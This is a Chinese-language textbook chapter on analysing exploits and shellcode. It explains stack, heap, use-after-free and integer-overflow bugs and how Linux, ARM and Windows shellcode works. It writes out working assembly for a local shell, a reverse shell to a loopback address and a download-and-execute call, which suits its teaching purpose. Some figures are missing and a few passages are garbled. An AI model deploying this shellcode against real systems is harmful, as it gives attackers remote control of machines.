

# 第八章：处理漏洞利用和 shellcode

在这个阶段，我们已经了解了不同类型的恶意软件。大多数恶意软件的共同点是它们是独立的，一旦进入目标系统便能自行执行。然而，并非所有情况都如此，其中一些恶意软件设计时需要借助目标合法应用程序才能正常工作。

在我们日常生活中，我们与多种软件产品交互，它们的功能各异，从展示猫咪图片到管理核电站。因此，有一个特定类别的威胁，旨在利用这些软件中隐藏的漏洞来实现它们的目的，无论是渗透系统、提升特权，还是崩溃目标应用程序或系统，从而破坏一些重要的进程。

本章将讨论漏洞利用以及如何分析它们。为此，我们将涵盖以下主题：

+   熟悉漏洞和漏洞利用

+   破解 shellcode

+   探索绕过漏洞利用缓解技术

+   分析 Microsoft Office 漏洞利用

+   研究恶意 PDF 文件

# 熟悉漏洞和漏洞利用

在本节中，我们将介绍存在的主要漏洞和漏洞利用类别，以及它们之间的关系。我们将解释攻击者如何利用一个或多个漏洞，在应用程序（甚至整个系统）上下文中执行未经授权的操作，从而控制应用程序（或整个系统）。

## 漏洞的类型

漏洞是指应用程序内部的错误或弱点，攻击者可以利用这些漏洞执行未经授权的操作。漏洞有多种类型，大多数是由于不安全的编码实践和错误引起的。你应该在处理任何由终端用户控制的输入时特别小心，包括环境变量和依赖模块。在本节中，我们将探讨最常见的漏洞类型，并了解攻击者如何利用它们。

### 栈溢出漏洞

**栈溢出**漏洞是最常见的漏洞之一，也是漏洞利用缓解技术通常首先解决的漏洞。近年来，由于引入了**数据执行保护/不可执行**（**DEP/NX**）技术，其风险已经得到了降低，相关内容将在《探索绕过漏洞利用缓解技术》一节中详细讨论。然而，在某些情况下，它仍然可以被成功利用，或者至少被用来执行**拒绝服务**（**DoS**）攻击。

让我们来看看以下用 C 语言编写的简单应用：

```
int vulnerable(char *arg)
{
  char Buffer[80];
  strcpy(Buffer, arg);
  return 0;
}
int main (int argc, char *argv[])
{
  // the command line argument
  vulnerable(argv[1]);
}
```

如你所知，`Buffer[80]` 变量的空间（就像任何局部变量一样）是分配在栈上的，紧接着是 EBP 寄存器的值，它会在函数序言的开始时被压入栈中，之后是返回地址：

![图 8.1 – 栈中的局部变量表示]

](img/Figure_8.1_B18500.jpg)

图 8.1 – 栈中局部变量的表示

因此，通过简单地向该应用程序传递一个超过 80 字节的参数，攻击者可以覆盖所有的缓冲区空间，以及 EBP 和返回地址。这可以控制该应用程序在脆弱函数执行完毕后继续执行的地址。以下图示演示了如何用 shellcode 覆盖 `Buffer[80]` 和返回地址：

![图 8.2 – 用 shellcode 覆盖 Buffer[80] 和返回地址

](img/Figure_8.2_B18500.jpg)

图 8.2 – 用 shellcode 覆盖 Buffer[80] 和返回地址

这是最基本的栈溢出漏洞。现在，让我们来看看其他常见的漏洞类型，比如 **堆溢出**。

### 堆溢出漏洞

在这种情况下，受影响的变量将不会存储在栈中，而是存储在内存中的动态分配空间中，称为 `malloc`、`HeapAlloc` 或其他类似的 API。Windows 支持两种类型的堆：默认堆和私有堆（即动态堆）；它们都遵循 `_HEAP` 结构。默认堆的地址存储在 `PEB` 结构中的 `ProcessHeap` 字段，并可以通过调用 `GetProcessHeap` API 获取；私有堆则通过如 `HeapCreate` 等 API 返回。所有堆地址（包括默认堆）都存储在一个由 `PEB` 中的 `ProcessHeaps` 字段指向的列表中。

与栈不同，堆并不存储返回地址，因此不易被利用，但也有其他方式可以滥用它。要理解这些，我们首先需要了解堆结构的一些基础知识。应用程序使用的数据存储在 `_HEAP_SEGMENT` 结构中，并通过 `_HEAP` 结构进行引用。所有堆块都包含一个头部（即 `_HEAP_ENTRY` 结构）和实际数据。然而，当堆块被标记为已释放时，在 `_HEAP_ENTRY` 结构之后，它会包含一个链表结构，`_LIST_ENTRY`，用于将空闲堆块连接起来。该结构包括指向前一个空闲堆块（`BLink` 字段）和下一个空闲堆块（`FLink` 字段）的指针；链表中的第一个和最后一个空闲堆块由 `_HEAP` 结构中的 `FreeList` 字段指向。当系统需要从该链表中移除一个已释放的堆块时（例如，当该块重新分配或在块合并过程中），将会发生**解除链接**操作。此操作涉及将下一个项的地址写入前一个项的下一个项，并将前一个项的地址写入下一个项的前一个项，从而将该块从链表中移除。相应的代码如下：


图 8.3 – 解除链接过程的示例代码

通过溢出堆上存储的变量，攻击者可能会覆盖相邻块的`FLink`和`BLink`值，这将使得在解除链接步骤中，可以在任何地址写入任何内容，如前面的截图所示。例如，这可以用来覆盖某个已存在函数的地址，该函数保证会在 shellcode 地址处执行，从而实现其执行。

随着时间的推移，已经引入了多种缓解措施来应对这一技术。从 Windows XP SP2 开始，由于引入了额外的检查，攻击者不得不从滥用`FreeList`转向滥用`Lookaside`列表以实现类似目的。从 Windows Vista 开始，除了其他更改外，`Lookaside`列表被替换为`Encoding`字段值，迫使攻击者探索不同的技术，如覆盖`_HEAP`结构。在 Windows 8 中，微软工程师引入了额外的检查和限制来对抗这一方法——这场斗争仍在继续。

### 使用后释放漏洞

尽管在 Windows 的后续版本中引入了所有的漏洞利用缓解措施，这种类型的漏洞仍然被广泛使用。这些漏洞在浏览器中的 JavaScript 或 PDF 文件等脚本语言中很常见。

当一个对象（内存中的一个结构，我们将在下一章详细介绍）在被释放后仍然被引用时，就会发生这种漏洞。假设代码看起来像这样：

```
OBJECT Buf = malloc(sizeof(OBJECT));
Buf->address_to_a_func = IsAdmin();
free(Buf);
.... <some code> ....
// execute this function after the buffer was freed
(Buf->address_to_a_func)();
```

在前面的代码中，`Buf`包含了`IsAdmin`函数的地址，该函数会在整个`Buf`变量在内存中被释放后执行。你认为`address_to_a_func`仍然会指向`IsAdmin`吗？也许会，但如果该区域在内存中被重新分配，并且由攻击者控制的另一个变量占用，它们可以将`address_to_a_func`的值设置为他们选择的地址。结果，这可能允许攻击者执行他们的 shellcode 并控制系统。

在`vtable`数组中。当`vtable`数组被覆盖并且其中任何函数被调用时，攻击者可以将执行重定向到他们的 shellcode。

### 整数溢出漏洞

如我们所知，整数值可以占用 1、2、4 或 8 字节。无论为存储它们分配了多少空间，总有一些数字太大，无法适应存储单元的范围。整数溢出漏洞发生在攻击者能够引入一个超出数据单元范围的数字时，这个数据单元本应存储该数字。例如，将一个字节大小的变量用来存储无符号整数`256`（`100000000b`），这将导致存储`0`（`00000000b`），因为只有最后 8 位能适应一个字节。这可能导致程序出现意外行为，进而有利于攻击者，比如分配一个长度为 0 的缓冲区，然后在其作用域之外写入数据。

### 逻辑漏洞

逻辑漏洞是指不需要内存损坏即可执行的漏洞。相反，它滥用应用程序逻辑以执行意外操作。一个很好的例子是*CVE-2010-2729（MS10-061）*，被称为**Windows 打印池服务漏洞**，被 Stuxnet 恶意软件使用。让我们深入了解其工作原理。

Windows 打印 API 允许用户选择他们希望将要打印的文件复制到的目录。因此，使用名为`GetSpoolFileHandle`的 API，攻击者可以获取目标机器上新创建文件的文件句柄，然后轻松地使用`WriteFile`（或类似）API 在那里写入任何数据。这类漏洞针对应用程序逻辑，允许攻击者选择他们希望的目录，并提供文件句柄以覆盖此文件并写入他们想要的任何数据。

不同的逻辑漏洞是可能的，它们没有特定的格式。这就是为什么这些类型的漏洞没有通用的缓解措施的原因。然而，与内存损坏漏洞相比，它们仍然相对罕见，因为它们更难发现，并且并非所有漏洞都会导致任意代码执行。

还有其他类型的漏洞，但刚刚介绍的这些类型是您可能会遇到的其他类型漏洞的基石。

现在我们已经介绍了攻击者如何强制应用程序执行其代码，让我们看看这段代码是如何编写的以及攻击者在编写时面临的挑战。

## 利用类型

一般来说，利用是利用软件中的漏洞执行意外行为的一段代码或数据。利用可以按多种方式分类。首先，除了它们所针对的漏洞之外，当我们谈论利用时，弄清楚正在执行的动作的实际结果至关重要。以下是一些最常见的类型：

+   **拒绝服务**（**DoS**）：在这里，利用的目标是崩溃应用程序或整个系统，以破坏其正常操作。

+   **权限提升**：在这种情况下，利用的主要目的是提升权限，以赋予攻击者更大的能力，比如访问更敏感的信息。

+   **未经授权的数据访问**：这一组有时与权限提升类别合并，但在范围和向量上有所不同。在这里，攻击者可以访问未经授权的敏感信息，这些信息在正常情况下，根据权限设置，是无法获得的。与前一类别不同，攻击者在这种情况下不能使用不同权限执行任意操作，并且所使用的权限不一定更高 - 它们可能与具有类似访问级别的不同用户相关联。

+   **任意代码执行**（**ACE**）：可能是最强大且最危险的一类，它允许攻击者执行任意代码并几乎执行任何操作。这段代码通常称为 shellcode，接下来会更详细地介绍。当代码通过网络远程执行时，我们所说的就是**远程代码执行**（**RCE**）。

根据漏洞利用与目标软件的通信位置，可以将其分为以下几类：

+   **本地漏洞利用**：在这里，漏洞是在目标机器上执行的，因此攻击者应该已经建立了对该机器的访问权限。常见的例子包括具有 DoS 或权限提升功能的漏洞。

+   **远程漏洞利用**：这一类漏洞针对远程机器，这意味着它们可以在没有预先访问目标系统的情况下执行。一个常见的例子是 RCE 漏洞，这种漏洞会授予这种访问权限，但远程 DoS 漏洞也非常常见。

最后，如果漏洞利用针对的是一个尚未正式解决和修复的漏洞，那么它被称为**零日漏洞**。

现在，深入探讨 shellcode 的各个方面。

# 破解 shellcode

在这一部分，我们将看看攻击者在利用漏洞时执行的代码。这段代码在没有头文件和已知内存地址的特殊条件下执行。让我们了解什么是 shellcode，以及如何为 Linux（Intel 和 ARM 处理器）编写 shellcode，稍后还会介绍 Windows 操作系统。

## 什么是 shellcode？

Shellcode 是一组精心设计的指令，一旦代码被注入到正在运行的应用程序中，就可以执行。由于大多数漏洞的情况，shellcode 必须是位置独立的代码（意味着它不需要在内存中的特定位置运行，也不需要基址重定位表来修复其地址）。Shellcode 还必须在没有可执行头文件或系统加载器的情况下操作。对于某些漏洞利用，shellcode 不能包含某些字节（特别是字符串类型缓冲区溢出时的空字节）。

现在，让我们看看 Windows 和 Linux 中的 shellcode 长什么样。

## Linux 下的 x86-64 架构 shellcode

Linux 下的 shellcode 通常比 Windows 下的 shellcode 更简单排列。一旦程序计数器寄存器指向 shellcode，shellcode 就可以连续执行系统调用，来生成一个 shell、监听一个端口，或与攻击者建立连接，几乎不需要任何努力（关于 Linux 中系统调用的更多信息，可以查看*第十一章*，*解剖 Linux 和 IoT 恶意软件*）。攻击者面临的主要挑战如下：

+   获取 shellcode 的绝对地址（以便能够访问数据）

+   从 shellcode 中移除任何空字节（可选）

现在，让我们来看看如何克服这些挑战。之后，我们将探讨不同类型的 shellcode。

### 获取绝对地址

这是一项相对简单的任务。这里，shellcode 滥用 `call` 指令，它将绝对返回地址保存在栈中（shellcode 可以通过 `pop` 指令获取该地址）。

这方面的一个例子如下：

```
  call next_ins
next_ins:
  pop eax ; now eax stores the absolute address of next_ins
```

在获取绝对地址后，shellcode 可以获取其中任何数据的地址，如下所示：

```
  call next_ins
next_ins:
  pop eax ; now eax has the absolute address of next_ins
  add eax, <data_sec – next_ins> ; now, eax stores the address of the data section
data_sec:
  db 'Hello, World',0
```

另一种常见的获取绝对地址的方法是使用 `fstenv` FPU 指令。该指令保存一些与 FPU 相关的调试参数，包括最后执行的 FPU 指令的绝对地址。可以像这样使用此指令：

```
_start:
  fldz
  fstenv [esp-0xc]
  pop eax
  add eax, <data_sec – _start>
data_sec:
  db 'Hello, World', 0
```

如你所见，shellcode 成功地获取了最后执行的 FPU 指令 `fldz` 的绝对地址，或者在这个例子中是 `_start` 的地址，这有助于获取 shellcode 中任何所需数据或字符串的地址。

### 无空字节的 shellcode

无空字节的 shellcode 是一种必须避免任何空字节以适应空终止字符串缓冲区的 shellcode。编写这种 shellcode 的作者必须改变他们编写代码的方式。让我们来看一个例子。

对于我们之前描述的 call/pop 方法，它们将被组装成以下字节：


图 8.4 – 在 OllyDbg 中的 call/pop

如你所见，由于调用指令使用了相对地址，它产生了 4 个空字节。为了处理这种情况，shellcode 的编写者需要让相对地址为负数。像这样的情况可以正常工作：


图 8.5 – 在 OllyDbg 中的 call/pop，没有空字节

下面是一些恶意软件作者为避免空字节所做的其他修改示例：


如你所见，在 shellcode 中执行这个并不难。你会发现，来自不同漏洞利用的绝大多数 shellcode（甚至是 Metasploit 中的 shellcode）都经过设计避免了空字节，即使漏洞利用本身不一定需要。

### 本地 shell shellcode

让我们从一个简单的例子开始，来启动一个 shell：

```
  jmp _end
_start:
  xor ecx, ecx
  xor eax, eax
  pop ebx     ; load /bin/sh in ebx
  mov al, 11   ; execve syscall ID
  xor ecx, ecx ; no arguments in ecx
  int 0x80     ; syscall
  mov al, 1    ; exit syscall ID
  xor ebx,ebx  ; no errors
  int 0x80     ; syscall
_end:
  call _start
  db '/bin/sh',0
```

让我们仔细看看这段代码：

1.  首先，它执行 `execve` 系统调用来启动一个进程，在这个例子中是 `/bin/sh`，即 shell。

1.  `execve` 系统调用的原型如下所示：

    ```
    int execve(const char *filename, char *const argv[], char
    *const envp[]);
    ```

1.  它通过使用 call/pop 技术获取绝对地址，将文件名 `/bin/sh` 设置到 `ebx` 中。

1.  在这种情况下不需要指定额外的命令行参数，所以 `ecx` 被设置为零（`xor`，`ecx`，`ecx` 以避免空字节）。

1.  在 shell 终止后，shellcode 执行 `exit` 系统调用，其定义如下：

    ```
    void _exit(int status);
    ```

1.  它将状态设置为零，在程序正常退出时将 `ebx` 设为零。

在这个例子中，你已经看到 shellcode 如何通过启动 `/bin/sh` 来为攻击者提供一个 shell。对于 x64 版本，有一些不同之处：

+   `int 0x80` 被一个特殊的 Intel 指令 `syscall` 替代。

+   `execve` 系统调用的 ID 已更改为 0x3b (59)，而 `exit` 的 ID 更改为 0x3c (60)。要知道每个 ID 代表什么功能，请查看官方的 Linux 系统调用表。

+   它使用 `rdi` 作为第一个参数，`rsi` 作为下一个参数，接着是 `rdx`、`rcx`、`r8`、`r9`，其余的在栈中。

代码将如下所示：

```
xor rdx, rdx
push rdx    ; null bytes after the /bin/sh
mov rax, 0x68732f2f6e69622f ; /bin/sh
push rax
mov rdi, rsp
push rdx    ; null arguments for /bin/sh
push rdi
mov rsi, rsp
xor rax, rax
mov al, 0x3b  ; execve system call
syscall
xor rdi, rdi
mov rax, 0x3c ; exit system call
syscall
```

如你所见，在 shellcode 方面，x86 和 x64 之间并没有太大区别。现在，让我们看看更高级的 shellcode 类型。

### 反向 shell shellcode

反向 shell shellcode 是最广泛使用的 shellcode 类型之一。这个 shellcode 会连接到攻击者，并在远程系统上为攻击者提供一个 shell，以便完全访问远程机器。为实现这一目标，shellcode 需要按照以下步骤执行：

1.  `socket`。这是该函数的定义：

    ```
    int socket(int domain, int type, int protocol);
    ```

你通常会看到它这样使用：

```
socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
```

在这里，`AF_INET` 代表大多数已知的互联网协议，包括 `IPPROTO_IP`（即 IP 协议）。`SOCK_STREAM` 用于表示 TCP 通信。从这个系统调用中，你可以理解这个 shellcode 正通过 TCP 与攻击者进行通信。汇编代码如下所示：

```
xor edx, edx  ; cleanup edx
push edx      ; protocol=IPPROTO_IP (0x0)
push 0x1      ; socket_type=SOCK_STREAM (0x1) 
push 0x2      ; socket_family=AF_INET (0x2)
mov ecx, esp  ; pointer to socket() args
xor ebx, ebx
mov bl, 0x1   ; SYS_SOCKET
xor eax,eax
mov al, 0x66  ; socketcall syscall ID
int 0x80
xchg edx, eax ; edx=sockfd (the returned socket)
```

在这里，shellcode 使用了 `socketcall` 系统调用（ID 为 0x66）。该系统调用表示多个系统调用，包括 `socket`、`connect`、`listen`、`bind` 等。在 `ebx` 中，shellcode 设置要从 `socketcall` 列表中执行的函数。以下是 `socketcall` 支持的函数列表的一个片段：

```
SYS_SOCKET 1
SYS_BIND 2
SYS_CONNECT 3
SYS_LISTEN 4
SYS_ACCEPT 5
```

shellcode 将参数压入栈中，然后将 `ecx` 设置为指向参数列表，将 `ebx = 1`（即 `SYS_SOCKET`），将系统调用 ID 设置到 `eax`（即 `socketcall`），接着执行系统调用。

1.  `sockaddr_in` 包含 IP、端口，并且再次使用 `AF_INET`。接着，shellcode 执行 `socketcall` 函数列表中的 `connect` 函数。其原型如下所示：

    ```
    int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
    ```

汇编代码将如下所示：

```
push 0x0101017f ; sin_addr=127.1.1.1 (network byte order)
xor ecx, ecx
mov cx, 0x3905
push cx      ; sin_port=1337 (network byte order)
inc ebx
push bx      ; sin_family=AF_INET (0x2)
mov ecx, esp    ; save pointer to sockaddr struct
push 0x10      ; addrlen=16
push ecx      ; pointer to sockaddr
push edx      ; sockfd
mov ecx, esp    ; save pointer to sockaddr_in struct
inc ebx      ; sys_connect (0x3)
int 0x80      ; exec sys_connect
```

1.  `dup2` 会将标准输入、输出和错误输出重定向到 socket。以下是该步骤的汇编代码：

    ```
      push 0x2
      pop ecx       ; set loop counter
      xchg ebx, edx ; save sockfd
    ; loop through three sys_dup2 calls to redirect stdin(0), stdout(1) and stderr(2)
    loop:
      mov al, 0x3f  ; sys_dup2 systemcall ID
      int 0x80
      dec ecx       ; decrement loop-counter
      jns loop      ; as long as SF is not set -> continue
    ```

在前面的代码中，shellcode 将 `stdin (0)`、`stdout (1)` 和 `stderr (2)` 替换为 `sockfd`（即 socket 句柄），从而将任何输入、输出和错误分别重定向到攻击者。

1.  如我们在上一节中看到的，`execve` 调用使用 `/bin/sh`。

现在，你已经看到了更高级的 shellcode，你可以理解大多数知名的 shellcode 以及它们背后的方法论。对于绑定 shell 或下载并执行 shellcode，代码非常相似，且使用类似的系统调用，可能只有一两个额外的函数。在分析 shellcode 时，你需要先了解每个系统调用的定义以及它需要的参数。

这就是 x86（32 位和 64 位）的情况。现在，让我们简要看一下 ARM shellcoding 及其与 x86 之间的区别。

## ARM 的 Linux shellcode

ARM 系统上的 shellcode 与使用 x86 指令集的 shellcode 非常相似。实际上，ARM 上的 shellcode 编写起来更加简单，因为不需要使用 call/pop 技术或 `fstenv` 来获取绝对地址。在 ARM 汇编语言中，你可以直接从代码中访问程序计数器寄存器 (`pc`)，这使得编写代码变得更为简单。与 `int 0x80` 或 `syscall` 不同，ARM shellcode 使用 `svc #0` 或 `svc #1` 来执行系统函数。以下是一个用于执行本地 shell 的 ARM shellcode 示例：

```
_start:
  add r0, pc, #12 
  mov r1, #0
  mov r2, #0
  mov r7, #11 ; execve system call ID
  svc #1
.ascii "/bin/sh\0"
```

在前面的代码中，shellcode 设置 `r0` 为程序计数器 (pc) + 12，指向 `/bin/sh` 字符串。然后，它设置 `execve` 系统调用的其余参数，并调用 `svc` 指令来执行代码。

### 无空值 shellcode

ARM 指令通常是 32 位指令。然而，许多 shellcode 会切换到 Thumb 模式，这会将指令设置为 16 位，从而减少了出现空字节的概率。为了让 shellcode 切换到 Thumb 模式，通常会使用 `BX` 或 `BLX` 指令。

执行后，所有指令都会切换到 16 位模式，这大大减少了空字节的出现。通过使用 `svc #1` 代替 `svc #0`，并避免使用包含空字节的立即数和指令，shellcode 可以达到无空值的目标。

在分析 ARM shellcode 时，确保在模式切换到 16 位而非 32 位后，反汇编所有指令。

现在我们已经讲解了适用于 Intel 和 ARM 处理器的 Linux shellcode，让我们来看一下 Windows shellcode。

## Windows shellcode

Windows shellcode 比 Linux shellcode 更加复杂。在 Windows 中，你无法像在 Linux 中那样直接使用 `sysenter` 或中断，因为系统函数 ID 会随版本变化。Windows 提供了接口来访问其库中的功能，例如 `kernel32.dll`。Windows shellcode 必须找到 `kernel32.dll` 的基地址，并通过其导出表获取所需的 API 以实现其功能。在处理套接字 API 时，攻击者可能需要通过 `LoadLibraryA`/`LoadLibraryExA` 加载额外的 DLL。

Windows shellcode 按照以下步骤实现其目标：

1.  获取绝对地址（我们在前一部分已经讲解过）。

1.  获取 `kernel32.dll` 的基地址。

1.  从 `kernel32.dll` 获取所需的 API。

1.  执行有效载荷。

现在我们已经讲解了 shellcode 如何获取绝对地址，接下来我们来看看它是如何获取 `kernel32.dll` 的基地址的。

### 获取 `kernel32.dll` 的基地址

`kernel32.dll` 是 shellcode 使用的主要 DLL。它包含像 `LoadLibrary` 这样的 API，用于加载其他库，还有 `GetProcAddress`，可以获取加载到内存中的库中任意 API 的地址。

要访问任何 DLL 中的任何 API，shellcode 必须获取 `kernel32.dll` 的地址并解析其导出表。当应用程序加载到内存中时，Windows 操作系统会加载其核心库，如 `kernel32.dll` 和 `ntdll.dll`，并将这些库的地址及其他信息保存在 PEB 中的 `kernel32.dll` 中，如下所示（对于 32 位系统）：

```
mov eax,dword ptr fs:[30h]
mov eax,dword ptr [eax+0Ch]
mov ebx,dword ptr [eax+1Ch]
mov ebx,dword ptr [ebx]
mov esi,dword ptr [ebx+8h]
```

第一行从 FS 段寄存器获取 PEB 地址（在 x64 中，它将是 GS 寄存器，并具有不同的偏移量）。然后，第二行和第三行获取 `PEB->LoaderData->InInitializationOrderModuleList`。

`InInitializationOrderModuleList` 是一个 DLL，其中包含关于所有已加载模块（PE 文件）在内存中的信息（如 `kernel32.dll`、`ntdll.dll` 和应用程序本身），以及基地址、文件名和其他信息。

在 `InInitializationOrderModuleList` 中，你将看到的第一个条目是 `ntdll.dll`。为了获取 `kernel32.dll`，shellcode 必须转到列表中的下一个项。因此，在第四行，shellcode 在跟踪前向链接（`ListEntry->FLink`）时获取下一个项。它从第五行获得有关 DLL 的可用信息来获取基地址。

### 从 kernel32.dll 获取所需的 API

为了让 shellcode 能够访问 `kernel32.dll` 的 API，它需要解析其导出表。导出表由三个数组组成。第一个数组是 `AddressOfNames`，其中包含 DLL 文件中 API 的名称。第二个数组是 `AddressOfFunctions`，它包含所有这些 API 的**相对地址**（**RVAs**）：


图 8.6 – 导出表结构（数字不是真实的，仅作为示例）

然而，这里存在的问题是，这两个数组的对齐方式不同。例如，`GetProcAddress` 可能在 `AddressOfNames` 的第三项中，但它在 `AddressOfFunctions` 的第五项中。

为了处理这个问题，Windows 创建了一个名为 `AddressOfNameOrdinals` 的第三个数组。该数组与 `AddressOfNames` 对齐，并包含 `AddressOfFunctions` 中每个项的索引。请注意，`AddressOfFunctions` 和 `AddressOfNameOrdinals` 比 `AddressOfNames` 多项，因为并非所有 API 都有名称。没有等效名称的 API 使用它们的 ID（即在 `AddressOfNameOrdinals` 中的索引）进行访问。导出表看起来大致如下：


图 8.7 – 导出表解析器（winSRDF 项目）

为了让 shellcode 获取其所需 API 的地址，它应该在 `AddressOfNames` 中搜索所需 API 的名称，然后取出其索引，并在 `AddressOfNameOrdinals` 中搜索该索引，以找到在 `AddressOfFunctions` 中该 API 对应的索引。通过这种方式，它将能够获取该 API 的相对地址。shellcode 将这些地址与 `kernel32.dll` 的基地址相加，从而得到该 API 的完整地址。在大多数情况下，shellcode 通常不将 API 名称与它需要硬编码的字符串进行匹配，而是使用其哈希值（更多信息请参见 *第六章*，*绕过反向工程技术*）。

### 下载并执行的 shellcode

该 shellcode 使用了位于 `urlmon.dll` 中的一个 API，名为 `URLDownloadToFileA`。顾名思义，它从给定的 URL 下载文件并将其保存在硬盘中，当它提供了所需的路径时。此 API 的定义如下：

```
URLDownloadToFile(LPUNKNOWN pCaller, LPCTSTR szURL, LPCTSTR szFileName, _Reserved_ DWORD dwReserved, LPBINDSTATUSCALLBACK lpfnCB);
```

只需要 `szURL` 和 `szFilename`。其余的参数通常设置为 null。文件下载完成后，shellcode 会使用 `CreateProcessA`、`WinExec` 或 `ShellExecute` 执行该文件。对应的 C 代码可能如下所示：

```
URLDownloadToFileA(0,"https://localhost:4444/calc.exe","calc.exe",0,0); WinExec("calc.exe",SW_HIDE);
```

正如你所看到的，payload 非常简单，却非常有效地执行了攻击的第二阶段，这可能是一个后门，用于维持持久性，并与攻击者通信，窃取有价值的信息。

## 漏洞的静态与动态分析

现在我们已经了解了漏洞的样子以及它们的工作原理，接下来总结一些分析漏洞时的实用技巧和窍门。

### 分析工作流程

首先，你需要仔细收集任何先前的知识：漏洞是在哪种环境中发现的，是否已经知道了被攻击的软件及其版本，以及漏洞是否已经成功触发。所有这些信息将帮助你正确模拟测试环境，并成功重现预期的行为，这对于动态分析非常有帮助。

其次，确认攻击载荷如何与目标应用程序交互也很重要。通常，攻击载荷通过预期的输入通道传递（无论是监听的套接字、Web 表单或 URI，还是可能是格式不正确的文档、配置文件或 JavaScript 脚本），但也可能有其他被忽视的选项（例如，环境变量和依赖模块）。此时，下一步是使用这些信息成功重现攻击过程，并识别可以确认攻击的指示器。例如，目标应用程序可能会以某种特定方式崩溃，或执行特定的操作，可以通过适当的系统监控工具看到（例如，监控文件、注册表或网络操作或访问的 API）。如果涉及 Shellcode，其分析可能会提供有关预期攻击后行为的有价值信息。

在此之后，你需要识别目标漏洞。MITRE 公司通过为所有公开已知的漏洞分配相应的**常见漏洞和暴露**（**CVE**）标识符，来维护一个漏洞列表，便于参考（例如，CVE-2018-9206）。有时，可能已经通过杀毒软件检测或公开发布知道该漏洞，但无论如何，最好进行确认。

首先检查独特的字符串，因为它们可能会给你提供关于目标软件交互部分的线索。与大多数其他类型的恶意软件不同，静态分析在这种情况下可能不够。由于攻击载荷与目标软件密切合作，因此需要在其上下文中进行分析，这在许多情况下需要动态分析。

在这里，你需要使用自己偏好的调试器拦截攻击载荷的交付时刻，但此时载荷尚未被处理。之后，可以通过多种方式继续分析。一种方法是仔细检查负责处理该载荷的高层函数（无需逐个进入每个函数），并监视触发时刻。一旦触发，就有可能缩小搜索范围，集中精力分析已识别函数的子函数。然后，工程师可以重复此过程，直到找到漏洞为止。

另一种方法是先在攻击载荷中搜索可疑条目（如损坏的字段、具有高熵的大二进制块、包含十六进制符号的长行等），并监视目标软件如何处理它们。如果涉及到 Shellcode，可以在其开头用断点或无限循环指令修补（分别为`(\xCC`和`\xEB\xFE`），然后执行重现攻击的步骤，等待插入的指令执行，并检查堆栈跟踪，以查看哪些函数被调用以达到这一点。

总体而言，通常建议在虚拟化环境或仿真环境中进行动态分析，因为在漏洞利用的情况下，发生错误并失去执行控制的可能性更大。因此，能够恢复先前的调试和环境状态是非常方便的。

这些技术是通用的，可以应用于几乎所有类型的漏洞利用。无论工程师是否需要分析浏览器漏洞（通常是用 JavaScript 编写的）或本地权限提升代码，区别主要在于测试环境的设置。

### Shellcode 分析

如果您需要分析二进制 shellcode，您可以使用适用于目标架构和平台的调试器（例如 32 位 Windows 的 OllyDbg），通过复制 shellcode 的十六进制表示并使用二进制粘贴选项来进行分析。还可以使用**unicorn**、**libemu**（一个小型 x86 指令仿真库）或**Pokas x86 Emulator**等工具，这些工具是**pySRDF**项目的一部分，用于仿真 shellcode。其他有用的动态分析工具包括**scdbg**和**qltool**（**qiling**框架的一部分）。

另一种流行的解决方案是将其转换为可执行文件。之后，您可以像分析任何常见的恶意软件样本一样，静态和动态分析它。一种选择是使用`shellcode2exe.py`脚本，但不幸的是，它的一个核心依赖不再受支持，因此可能难以设置。另一种选择是通过将 shellcode 复制并粘贴到相应的模板中，手动编译可执行文件：

```
unsigned char code[] = {<output of xxd –i against the shellcode>};
int main(int argc, char **argv)
{
        int (*func)();
        func = (int (*)()) code;
        (int)(*func)();
}
```

可能需要将执行标志添加到数据段中，以使 shellcode 可执行。

最后，您还可以直接在调试器中打开任何可执行文件，然后将 shellcode 粘贴到现有代码中。例如，在 x64dbg 中，可以通过右键单击并选择**Binary** | **Paste (Ignore Size)**来完成。

为了分析 ROP 链，您需要访问目标应用程序和系统，以便在那里动态解析实际指令。

# 探索绕过漏洞利用缓解技术

由于即使在对软件开发人员进行安全编码培训和意识提升后，同样类型的漏洞仍然不断出现，因此已经引入了新的方法来减少这些漏洞的影响并使其无法用于远程代码执行。

特别是，各种级别的多种漏洞利用缓解技术已经被开发出来，使攻击者很难甚至不可能成功执行他们的 shellcode。我们来看看为此目的创建的一些最著名的缓解措施。

## 数据执行防护（DEP/NX）

数据执行防护（DEP）是最早被提出用于防止漏洞和 shellcode 攻击的技术之一。其背后的理念是阻止在任何没有`EXECUTE`权限的内存页内执行代码。此技术可以通过硬件支持，一旦 shellcode 在栈或堆（或任何没有此权限的内存位置）中执行，就会引发异常。

